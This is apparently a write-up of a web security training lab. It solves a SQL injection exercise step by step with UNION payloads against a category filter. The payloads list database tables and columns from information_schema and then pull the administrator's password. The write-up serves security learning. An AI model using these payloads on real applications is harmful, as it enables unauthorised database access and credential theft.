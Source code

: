 Title: SQL injection attack, listing the database contents on non-Oracle databases
Level: Practitioner
Desc:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user. 

payload: `category=Gifts' OR 1=1--`
![image](https://github.com/user-attachments/assets/92a71cbb-b529-4ecc-9afb-3c7b0d3b763b)

payload: `category=Gifts' OR 1=1 UNION SELECT '1','2'--`
![image](https://github.com/user-attachments/assets/3ef4a6ce-ddc1-4e9f-aee8-26168273423b)

payload: `category=Gifts' OR 1=1 UNION SELECT '1',table_name FROM information_schema.tables--`
![image](https://github.com/user-attachments/assets/a166142f-2eb3-459c-83a4-17db20d38a5a)

table name: users_ieskuv

payload: `category=Gifts' OR 1=1 UNION SELECT '1',column_name FROM information_schema.columns where table_name='users_ieskuv'--`
![image](https://github.com/user-attachments/assets/6c584bf6-0431-49a6-aeac-71529fb290fa)

columns: username_jdwuic, password_hgdlmz

payload: `category=Gifts' OR 1=1 UNION SELECT '1',password_hgdlmz FROM users_ieskuv where username_jdwuic='administrator'--`
![image](https://github.com/user-attachments/assets/163b793f-fdab-4f66-911e-9d90944d1b35)
